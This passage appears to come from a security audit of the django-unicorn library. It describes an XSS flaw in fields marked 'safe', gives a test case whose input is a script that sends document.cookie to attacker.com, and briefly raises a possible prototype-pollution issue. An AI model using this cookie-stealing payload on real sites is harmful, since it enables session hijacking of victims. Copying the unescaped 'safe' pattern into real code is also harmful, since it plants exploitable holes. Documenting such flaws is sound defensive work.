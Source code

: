 ```python
def save_user_input(self):
    self.something_safe = self.user_input  # self.user_input contains attacker-controlled data
```

When rendered in a template like:

```html
<div>
  {{ something_safe }}  <!-- This will not be HTML encoded -->
</div>
```

If `self.user_input` contains `<script>alert(document.cookie)</script>`, this JavaScript would be executed in the victim's browser.

### Security Test Case
1. Create a component with a field marked as "safe":
   ```python
   class VulnerableComponent(UnicornView):
       user_input = ""
       output = ""

       class Meta:
           safe = ("output",)

       def process_input(self):
           self.output = self.user_input
   ```

2. Create a template that uses this component:
   ```html
   <div>
     <input unicorn:model="user_input" type="text">
     <button unicorn:click="process_input">Process</button>
     <div>{{ output }}</div>
   </div>
   ```

3. As an attacker, input the following into the text field:
   ```
   <script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
   ```

4. Click the "Process" button.
5. The script will execute in the victim's browser, sending their cookies to the attacker's server.

## Prototype Pollution through Dynamic Property Setting

### Description
Django-unicorn dynamically sets properties on components based on data received from client requests. If an attacker can manipulate this data, they might be able to set arbitrary properties on component objects, which could lead to prototype pollution or other unexpected behavior.

### Impact
An attacker could potentially modify core functionality of the application, bypass security checks, or inject unexpected behavior. In extreme cases, this could lead to server-side code execution.
